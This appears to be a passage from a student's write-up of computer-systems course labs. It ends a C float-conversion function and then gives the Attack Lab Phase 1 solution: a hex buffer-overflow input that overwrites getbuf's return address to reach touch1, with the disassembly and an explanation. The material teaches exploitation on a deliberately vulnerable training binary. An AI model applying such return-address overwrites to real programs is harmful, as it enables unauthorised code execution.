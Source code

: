 ```
        return 0x80000000u; 
    }

    if (power_of_2 < -31){ 
        return 0; 
    }

    if (power_of_2 > 0){ 
        number = value << power_of_2; 
    }

    if (power_of_2 < 0){ 
        number = value >> -power_of_2; 
    }
    
    if (is_negative){ 
        return number > 0x80000000u ? 0x80000000u : -number; 
    }
    else{ 
        return number > 0x7fffffff ? 0x80000000u : number; 
    }
}
```

[Back to Top](./readme#highlighted-labs-for-computer-systems)


# Attack Lab

## Phase 1
### Solution
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```
### Discussion
The goal of phase 1 is to overflow the buffer in such a way that we insert some code on the stack that will end up calling the function touch1.

We first have to see how exactly our input is taken in in order to figure out how to overflow the buffer. getbuf is the function in charge of taking in the input (calling gets).

Disassemble of getbuf:
```
00000000004017a8 <getbuf>:
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
    4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	retq   
    4017be:	90                   	nop
    4017bf:	90                   	nop
```
From the first instruction of getbuf, we can see that space is created for 0x28 bytes on the stack (%rsp). In decimal terms, that's 40 bytes of space reserved for input. If we provide input that's longer than 40 bytes, we will overflow the buffer.
